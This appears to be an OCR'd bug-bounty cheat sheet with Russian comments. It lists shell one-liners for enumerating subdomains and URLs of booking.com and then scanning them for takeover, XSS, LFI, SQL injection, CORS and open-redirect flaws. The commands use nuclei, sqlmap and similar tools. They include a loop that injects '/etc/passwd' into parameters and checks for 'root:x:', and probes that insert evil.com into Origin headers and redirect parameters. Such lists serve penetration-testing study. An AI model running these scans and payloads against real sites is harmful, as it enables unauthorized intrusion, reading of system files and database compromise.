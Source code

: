 * echo booking.com > target.txt
# найдет субдомены 
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляет только живые 
* cat subs.txt | httpx -o aliveSubs.txt
# вытащить все юрл с субдоменов 
* cat subs.txt | waybackurls | tee urls.txt
# перверяет субдомен тейковер среди живых доменов
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
# проверяет на cve, exposure, vuln 
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
# из юрл извлекаем те юрл у которых есть параметры и js файлы 
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
# проверяет баги в js файлах 
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
# проверяет xss 
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
# проверяет lfi 
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
# проверяет sqli 
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
# проверяет открытое перенаправление 
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
# нуклей фазер проверет все уязвимости 
* nf -d booking.com


